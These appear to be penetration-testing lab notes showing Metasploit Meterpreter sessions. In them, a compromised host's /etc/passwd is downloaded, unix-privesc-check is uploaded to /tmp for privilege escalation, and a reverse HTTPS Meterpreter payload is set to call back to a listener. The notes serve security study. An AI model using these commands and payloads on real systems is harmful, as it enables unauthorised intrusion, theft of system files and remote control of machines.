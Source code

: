 ```console

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
...

// upload unix-privesc-check to your metepreter shell!!

meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] Uploading  : /usr/bin/unix-privesc-check -> /tmp/unix-privesc-check
[*] Completed  : /usr/bin/unix-privesc-check -> /tmp/unix-privesc-check
meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  36801  fil   2024-04-07 14:47:31 -0400  unix-privesc-check
100755/rwxr-xr-x  250    fil   2024-04-07 14:08:30 -0400  yLbHn

// If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like "\\".

meterpreter > exit
```

Try another 64-bit Linux Meterpreter payload - one that is not a raw TCP conn, but a HTTPS conn that is encrypted with SSL/TLS.

```console
> show payloads
   12  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline

> set payload 12

> show options
Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.45.198   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path

// LURI is used to leverage a single listener on one port capable of handling different requests based on the path in this option and provide a logical separation. if left blank, Metasploit uses / as path.

> run
```
